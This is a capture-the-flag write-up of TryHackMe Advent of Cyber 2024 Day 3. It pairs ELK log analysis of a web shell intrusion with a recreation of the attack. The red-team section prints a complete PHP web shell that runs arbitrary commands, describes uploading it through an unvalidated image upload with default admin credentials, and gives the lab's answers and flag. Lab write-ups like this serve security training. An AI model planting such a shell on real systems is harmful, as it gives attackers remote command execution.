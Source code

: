 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis


## Challenge Overview 🎅

Day 3 gave me the chance to wear both blue team and red team hats. The Frosty Pines Resort SOC flagged some suspicious activity on their web server. My job was to figure out how the web shell got there and who accessed it, then take on the role of an attacker to exploit the same vulnerability and grab the hidden flag.

## Objectives 🎯

1. Investigate logs in ELK to figure out how the attack happened.
2. Identify the IP that accessed the web shell.
3. Recreate the attack by exploiting a file upload vulnerability to retrieve the flag.

## Step 1: Investigating the Logs (Blue Team)

### Breaking Down the Process

1. **Access Kibana:**  
   Opened `http://MACHINE_IP:5601` using the browser on the AttackBox. 
2. **Select the Collection:**  
   Chose the **frostypines-resorts** index from the Discover tab.
3. **Adjust the Timeframe:**  
   Set the range to **October 1, 2024, 00:00 – October 3, 2024, 20:00**.
4. **Add Relevant Fields:**  
   Added `requests` and `clientip` fields to focus on the activity we care about.
5. **Narrow the Search:**  
   Searched for `"shell.php"` in the `requests` field to find related logs.

### What I Found
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

## Step 2: Exploiting the RCE Vulnerability (Red Team)

### Steps to Pull Off the Exploit

1. **Edit the Hosts File:**  
   Added the following to `/etc/hosts`:  
   ```
   MACHINE_IP frostypines.thm
   ```
   This let me access the website by name instead of IP.
2. **Log In to the Site:**  
   Went to `http://frostypines.thm` and logged in with:  
   - **Username:** admin@frostypines.thm  
   - **Password:** admin  
3. **Prepare the Web Shell:**  
   Saved the following PHP code as `shell.php`:
   ```
   <html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute">
   </form>
   <pre>
   <?php
       if(isset($_GET['command'])) 
       {
           system($_GET['command'] . ' 2>&1'); 
       }
   ?>
   </pre>
   </body>
   </html>
   ```
4. **Upload the Shell:**  
   Uploaded `shell.php` as the room image via the “Add Room” section.
5. **Locate the Web Shell:**  
   Verified it was uploaded to:  
   `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**  
   Accessed the shell and ran the following command:  
   ```
   cat flag.txt
   ```

### The Result
- **What is the contents of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Lessons Learned 🌟

### Blue Team Takeaways
- **Log Analysis Is Essential:** ELK made it easier to sift through logs, filter out noise, and pinpoint the attacker’s activity.
- **Adding Context Matters:** Including fields like `requests` and `clientip` helped narrow the search quickly.
- **Correlating Activity:** Connecting requests with specific IPs and actions made the investigation much more effective.

### Red Team Takeaways
- **Unrestricted File Uploads Are Risky:** Not validating uploads is a massive vulnerability that attackers can exploit for RCE.
- **Web Shells Are Simple but Powerful:** A small PHP script can give full control over a system, reinforcing the need for proper server security.
- **Credentials Are Key:** Using weak or default credentials like `admin/admin` is just inviting attackers in.

## Tools 🛠️

- **[Elastic SIEM](https://www.elastic.co/security/siem):** Used for log analysis to track down suspicious activity and access points.  
- **Text Editor:** Created the PHP web shell used in the exploit.  
- **Browser:** Accessed and navigated the Frosty Pines site during the red team portion of the challenge.

## Final Thoughts 🎁

This task showed the importance of seeing things from both perspectives: defending against and exploiting vulnerabilities. ELK made it easier to understand what happened from the logs, and recreating the attack demonstrated how simple mistakes, like not validating uploads, can have serious consequences. I’m excited to see what tomorrow’s challenge brings!

## Table of Contents

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [More Days to Come!](#)
